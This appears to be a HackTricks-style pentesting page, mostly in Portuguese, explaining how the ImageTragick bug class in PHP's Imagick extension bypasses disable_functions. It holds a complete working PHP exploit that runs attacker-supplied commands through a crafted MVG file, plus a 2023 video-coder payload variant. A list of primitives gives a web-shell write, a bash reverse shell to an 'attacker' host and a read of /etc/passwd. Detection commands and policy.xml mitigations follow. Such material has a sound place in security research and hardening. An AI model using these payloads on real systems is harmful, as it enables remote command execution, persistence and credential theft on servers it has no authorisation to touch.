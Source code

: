 # Imagick <= 3.3.0  ‑ PHP >= 5.4  *disable_functions* Bypass

{{#include ../../../../banners/hacktricks-training.md}}

> A famosa família de bugs *ImageTragick* (CVE-2016-3714 e outros) permite que um atacante acesse o binário subjacente **ImageMagick** através de entradas MVG/SVG manipuladas. Quando a extensão PHP **Imagick** está presente, isso pode ser explorado para executar comandos de shell, mesmo que todas as funções PHP orientadas à execução estejam na lista negra com `disable_functions`.
>
> O PoC original publicado por RicterZ (Chaitin Security Research Lab) em maio de 2016 é reproduzido abaixo. A técnica ainda é frequentemente encontrada durante auditorias contemporâneas de PHP 7/8 porque muitos provedores de hospedagem compartilhada simplesmente compilam o PHP sem `exec`/`system`, mas mantêm uma combinação desatualizada de Imagick + ImageMagick.

From <http://blog.safebuff.com/2016/05/06/disable-functions-bypass/>
```php
# Exploit Title : PHP Imagick disable_functions bypass
# Exploit Author: RicterZ  (ricter@chaitin.com)
# Versions      : Imagick <= 3.3.0  |  PHP >= 5.4
# Tested on     : Ubuntu 12.04 (ImageMagick 6.7.7)
# Usage         : curl "http://target/exploit.php?cmd=id"
<?php
// Print the local hardening status
printf("Disable functions: %s\n", ini_get("disable_functions"));
$cmd = $_GET['cmd'] ?? 'id';
printf("Run command: %s\n====================\n", $cmd);

$tmp   = tempnam('/tmp', 'pwn');     // will hold command output
$mvgs  = tempnam('/tmp', 'img');     // will hold malicious MVG script

$payload = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/x.jpg"|$cmd >$tmp")'
pop graphic-context
EOF;

file_put_contents($mvgs, $payload);
$img = new Imagick();
$img->readImage($mvgs);     // triggers convert(1)
$img->writeImage(tempnam('/tmp', 'img'));
$img->destroy();

echo file_get_contents($tmp);
?>
```
---

## Por que isso funciona?

1. `Imagick::readImage()` gera de forma transparente o binário *delegate* do **ImageMagick** (`convert`/`magick`).
2. O script MVG define o *fill* para uma URI externa. Quando uma aspa dupla (`"`) é injetada, o restante da linha é interpretado por `/bin/sh ‑c` que o ImageMagick usa internamente → execução arbitrária de shell.
3. Tudo acontece fora do interpretador PHP, portanto *`disable_functions`*, *open_basedir*, `safe_mode` (removido no PHP 5.4) e restrições semelhantes em processo são completamente contornadas.

## Status 2025 – ainda é **relevante**

* Qualquer versão do Imagick que dependa de um backend vulnerável do ImageMagick continua sendo explorável. Em testes de laboratório, a mesma carga útil funciona no PHP 8.3 com **Imagick 3.7.0** e **ImageMagick 7.1.0-51** compilado sem um `policy.xml` endurecido.
* Desde 2020, vários vetores adicionais de injeção de comando foram encontrados (`video:pixel-format`, `ps:`, `text:` coders…). Dois exemplos públicos recentes são:
* **CVE-2020-29599** – injeção de shell via o codificador *text:*.
* **GitHub issue #6338** (2023) – injeção no *video:* delegate.

Se o sistema operacional fornecer o ImageMagick < **7.1.1-11** (ou 6.x < **6.9.12-73**) sem um arquivo de política restritiva, a exploração é direta.

## Variantes modernas de carga útil
```php
// --- Variant using the video coder discovered in 2023 ---
$exp = <<<MAGICK
push graphic-context
image over 0,0 0,0 'vid:dummy.mov" -define video:pixel-format="rgba`uname -a > /tmp/pwned`" " dummy'
pop graphic-context
MAGICK;
$img = new Imagick();
$img->readImageBlob($exp);
```
Outras primitivas úteis durante CTFs / engajamentos reais:

* **Escrita de arquivo**  – `... > /var/www/html/shell.php`  (escrever web-shell fora de *open_basedir*)
* **Shell reverso** – `bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"`
* **Enumerar** – `id; uname -a; cat /etc/passwd`

## Detecção e enumeração rápida
```bash
# PHP side
php -r 'echo phpversion(), "\n"; echo Imagick::getVersion()["versionString"], "\n";'

# System side
convert -version | head -1                 # ImageMagick version
convert -list policy | grep -iE 'mvg|https|video|text'   # dangerous coders still enabled?
```
Se a saída mostrar que os codificadores `MVG` ou `URL` estão *ativados*, o alvo provavelmente é explorável.

## Mitigações

1. **Patch/Upgrade**  – Use ImageMagick ≥ *7.1.1-11* (ou a última versão 6.x LTS) e Imagick ≥ *3.7.2*.
2. **Fortalecer `policy.xml`**  – desabilitar explicitamente codificadores de alto risco:

```xml
<policy domain="coder" name="MVG" rights="none"/>
<policy domain="coder" name="MSL" rights="none"/>
<policy domain="coder" name="URL" rights="none"/>
<policy domain="coder" name="VIDEO" rights="none"/>
<policy domain="coder" name="PS" rights="none"/>
<policy domain="coder" name="TEXT" rights="none"/>
```

3. **Remover a extensão**  em ambientes de hospedagem não confiáveis. Na maioria das pilhas web, `GD` ou `Imagick` não são estritamente necessários.
4. Trate `disable_functions` apenas como *defesa em profundidade* – nunca como um mecanismo primário de sandboxing.

## Referências

* [GitHub ImageMagick issue #6338 – Command injection via video:pixel-format (2023)](https://github.com/ImageMagick/ImageMagick/issues/6338)
* [CVE-2020-29599 – ImageMagick shell injection via text: coder](https://nvd.nist.gov/vuln/detail/CVE-2020-29599)
{{#include ../../../../banners/hacktricks-training.md}}
